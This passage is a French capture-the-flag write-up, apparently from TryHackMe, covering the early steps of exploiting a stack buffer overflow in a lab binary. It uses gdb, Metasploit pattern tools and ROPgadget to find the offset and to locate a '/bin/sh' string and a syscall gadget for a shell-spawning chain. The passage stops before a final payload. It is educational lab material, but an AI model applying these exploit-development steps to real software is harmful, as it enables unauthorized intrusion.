 On fabrique un fichier teste pour vérifier si on a un débordement de tampon.  
On exécute le programme dans gdb et on lui injecte la chaîne de caractères et on a un segementation fault.   
Si on a un segmentation fault alors on a un débordement de tampon.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

tim@kali:~/Bureau/tryhackme/write-up$ gdb -q ./hc0n
Reading symbols from ./hc0n...
(No debugging symbols found in ./hc0n)
(gdb) r
Starting program: /home/tim/Bureau/tryhackme/write-up/hc0n 
What will you be having for dinner !! (: 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400663 in main ()
(gdb) x $rbp
0x6241376241366241:	Cannot access memory at address 0x6241376241366241
```

On génére un pattern pour voire l'adresse à partire de ou ça plante.  
On lance le programme dans le gdb et copie le paterne et ça crash.   
On regarde le registre rbp qui nous montre l'adresse écrasée pas notre chaîne.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241
[*] Exact match at offset 48
```

On calcul l'offset qui est de 48.
Une chaîne inferieur à 48 octects ne débordera pas, il faut aussi ajouter l'adresse de retour qui est de 8 octets car on est sur une archtecture 64 bit.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ROPgadget --binary hc0n --string '/bin/sh'
Strings information
============================================================
0x00000000004006f8 : /bin/sh

tim@kali:~/Bureau/tryhackme/write-up$ ROPgadget --binary hc0n --only 'syscall'
Gadgets information
============================================================
0x00000000004005fa : syscall

Unique gadgets found: 1
```
